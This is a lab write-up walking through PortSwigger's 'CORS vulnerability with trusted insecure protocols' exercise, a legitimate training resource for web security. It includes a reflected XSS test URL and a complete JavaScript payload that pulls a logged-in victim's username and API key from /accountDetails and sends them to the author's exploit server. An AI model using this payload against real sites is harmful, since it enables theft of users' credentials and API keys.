# Write-up: CORS vulnerability with trusted insecure protocols @ PortSwigger Academy



This write-up for the lab `CORS vulnerability with trusted insecure protocols` is part of my walk-through series for [PortSwigger's Web Security Academy](https://portswigger.net/web-security).

Lab-Link: <https://portswigger.net/web-security/cors/lab-breaking-https-attack>  
Difficulty: PRACTITIONER  
Python script: [script.py](script.py)  

## Lab description

- Lab application has an insecure CORS configuration and trusts all subdomains regardless of protocol
- Known good credentials `wiener:peter`

### Goals

- Create some JavaScript that
  - retrieves the admin API key
  - uploads it to the exploit server

## Steps

The web application of the lab is a shop website. I log in with the credentials provided and see the API key of `wiener` on the `My account` page.

Looking in the HTML source, I see a JavaScript call to obtain this key:



This results in this request being made:



### Naive attempts

So as a first attempt I try to craft a JavaScript snippet that sends a request to the account details and tries to access the response data:



The request is issued as expected and the response contains the desired API key:



However, it does not contain an `Access-Control-Allow-Origin` header. As a result, the browser does not have the permission to allow a script on running from `http://exploit...` to access the data received from `https://...web-security-academy.net`:



### Find a way to execute scripts on an allowed domain

The next step is to try to find a way to execute my payload within the allowed domain, i.e. within the shop website. 

For this, I check the shop to find a possible XSS vulnerability. In this lab, with only very few injection points, it is not difficult to find it manually. Burp can help to speed up the process:



Verifying it manually in the browser by accessing `https://stock.ac411fa31f815f5cc0894656004f00b2.web-security-academy.net/?productId=1%3Cscript%3Ealert(document.domain);%3C/script%3E&storeId=1` shows the desired popup:



### Putting it together

Now I have everything I need. I perform a subrequest similar to the [first CORS lab](../CORS_vulnerability_with_basic_origin_reflection/README.md). After a couple of attempts I got the required modifications and URL encodings correct. Specifically:

- My exploit server is not a trusted location. I need to use `document.location` to a trusted domain, in this case `https://stock...`. In this context, I execute my payload via Cross-Site scripting (XSS). As it is a trusted domain the browser allows the script access to the response of `/accountDetails`.
- The URL for `document.location` needs to URL-encode the `<` of the closing script tag. When the browser parses a script, it quits at the first `</script>` found. In other cases this is the required behaviour, but not here. So I need to ensure the parser does not see it. 
- The `+` and `&` in the request to my exploit server need to be URL-encoded, otherwise, it will be treated as arguments of the request to `https://stock...`

The final scripts looks a bit daunting:



```HTML
<script>
	document.location="https://stock.ac411fa31f815f5cc0894656004f00b2.web-security-academy.net/?productId=1<script>var r = new XMLHttpRequest(); r.open('get','https://ac411fa31f815f5cc0894656004f00b2.web-security-academy.net/accountDetails',false); r.withCredentials = true; r.send(); const obj=JSON.parse(r.responseText);r.open('get','https://exploit-ac921f151fca5facc0394693015700d9.web-security-academy.net/?user='%2bobj.username%2b'%26apikey='%2bobj.apikey, false); r.send();%3c/script>&storeId=1"
</script>
```

Testing the exploit shows my API key in the log:



Delivering the exploit to the victim results in the required API key



Submitting the key updates the lab to


